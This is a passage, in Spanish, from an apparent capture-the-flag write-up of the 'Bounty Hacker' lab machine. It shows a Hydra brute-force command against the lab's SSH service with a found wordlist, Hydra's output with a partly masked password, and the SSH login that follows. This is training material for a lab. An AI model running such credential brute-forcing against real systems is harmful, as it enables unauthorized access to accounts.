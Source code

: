 En el archivo locks.txt observamos lo que podrían ser contraseñas por el hecho de que utiliza caracteres complejos, por lo tanto usaremos el usuario L** y el diccionario encontrado para realizar un ataque de fuerza bruta al servicio ssh.

### Hydra

En este caso utilizaremos el programa Hydra para realizar al servicio que indiquemos y dirección IP que realice un ataque de fuerza bruta a dicho usuario con el diccionario que le asignemos.

```bash
hydra -l l** -P locks.txt 10.10.160.21 ssh
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-01-10 07:58:52
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.160.21:22/
[22][ssh] host: 10.10.160.21   login: l**   password: Red***********cat3
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-01-10 07:59:05
```

| Argumentos | Descripción |
| --- | --- |
| -l | Sirve para indicar el usuario. |
| -P | Sirve para indicar el diccionario. |
| 10.10.160.21 | Se indica la IP de la máquina contraria. |
| ssh | Se indica el servicio al que realizará el ataque de fuerza bruta. |

Al descubrir que el usuario l** puede acceder con la contraseña Red***********cat3 por ssh, nos conectaremos a dicho servicio con estas credenciales obtenidas.

```bash
ssh l**@10.10.160.21
l**@10.10.160.21's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Tue Jan 10 07:06:06 2023 from 10.8.35.7
l**@bountyhacker:~/Desktop$
```

Como podemos observar, hemos conseguido acceder al usuario, por lo que utilizaremos ahora el comando ls para dictar los archivos que existen en el directorio.
